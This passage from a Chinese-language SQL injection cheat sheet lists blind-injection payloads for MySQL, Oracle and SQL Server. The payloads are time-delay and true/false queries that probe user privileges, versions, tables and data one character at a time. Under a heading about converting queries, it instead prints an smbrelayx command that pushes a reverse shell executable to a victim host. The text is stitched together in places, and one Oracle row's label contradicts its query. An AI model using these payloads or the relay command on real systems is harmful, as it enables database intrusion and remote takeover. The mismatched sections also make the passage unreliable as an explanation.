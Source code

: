 ##### **全盲**

部分盲注可以通过 HTTP 响应中的不同 HTTP 状态代码，响应时间，内容长度和 HTML 内容来确定。这些标记可以指示真或假的陈述。下面的查询将试图通过在猜测的信息上声明真或假的响应来利用注入。真或假查询也可以通过返回 1（真）或 0（假）行来识别。一个错误也可以用来标识 0（False）。

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>用户是 root</td><td align="center">SELECT IF(user() LIKE 'root@%', SLEEP(5), null)</td></tr><tr><td>用户是 root（Benchmark 方法）</td><td align="center">SELECT IF(user() LIKE 'root@%', BENCHMARK(5000000, ENCODE('Slow Down','by 5 seconds')), null)</td></tr><tr><td>版本是 5.xx</td><td align="center">SELECT IF(SUBSTRING(version(),1,1)=5,SLEEP(5),null)</td></tr></tbody></table>

#### **Oracle**

##### **部分盲**

部分盲注是指返回 HTTP 状态代码或 HTML 响应中的其他标记的查询，他们指示真或假陈述。下面的查询将试图通过在猜测的信息上声明真实或错误的响应来利用注入。真或假查询也可以通过返回 1（真）或 0（假）行来识别。一个错误也可以用来标识 0（False）。

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>版本是 12.2</td><td align="center">SELECT COUNT(*) FROM v$version WHERE banner LIKE 'Oracle%12.2%';</td></tr><tr><td>子选择启用</td><td align="center">SELECT 1 FROM dual WHERE 1=(SELECT 1 FROM dual)</td></tr><tr><td>表 log_table 存在</td><td align="center">SELECT 1 FROM dual WHERE 1=(SELECT 1 from log_table);</td></tr><tr><td>列 message 存在于表 log_table 中</td><td align="center">Select COUNT(*) from user_tab_cols where column_name = 'MESSAGE' and table_name = 'LOG_TABLE';</td></tr><tr><td>第一条 message 的第一个字母是 t</td><td align="center">Select message from log_table where rownum=1 and message LIKE 't%';</td></tr></tbody></table>

##### **将部分盲查询转换为全盲查询**

通过使用以下转换，可以在全盲方案中使用上述任何查询：

```
smbrelayx.py -h VICTIM.IP.GOES.HERE -e ./reverse\_shell.exe
```

##### 全盲

全盲查询不会在 HTTP / HTML 响应中指示任何查询结果。这使他们依赖于定时功能和其他 out-of-band 攻击方法。一个真的 SQL 语句需要 X 秒的回应，一个假的 SQL 语句应该立即返回。

<table width="677"><thead><tr><th width="66">描述</th><th width="469" align="center">语句</th></tr></thead><tbody><tr><td width="51">版本是 12.2</td><td width="469" align="center">SELECT CASE WHEN (SELECT COUNT(*) FROM v$version WHERE banner LIKE 'Oracle%11.2%')=1 THEN (SELECT count(*) FROM all_users a, all_users b, all_users c, all_users d) ELSE 0 END FROM dual</td></tr></tbody></table>

#### **SQL Server**

##### **部分盲**

部分盲注是指返回 HTTP 状态代码或 HTML 响应中的其他标记的查询，他们指示真或假陈述。下面的查询将试图通过在猜测的信息上声明真实或错误的响应来利用注入。真或假查询也可以通过返回 1（真）或 0（假）行来识别。一个错误也可以用来标识 0（False）。

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>版本是 12.0.2000.8</td><td align="center">SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'</td></tr><tr><td>子选择启用</td><td align="center">SELECT (SELECT @@version)</td></tr><tr><td>表 log_table 存在</td><td align="center">SELECT * FROM log_table</td></tr><tr><td>列 message 存在于表 log_table 中</td><td align="center">SELECT message from log_table</td></tr><tr><td>第一条 message 的第一个字母是 t</td><td align="center">WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table) SELECT message FROM data WHERE row = 1 and message like 't%'</td></tr></tbody></table>
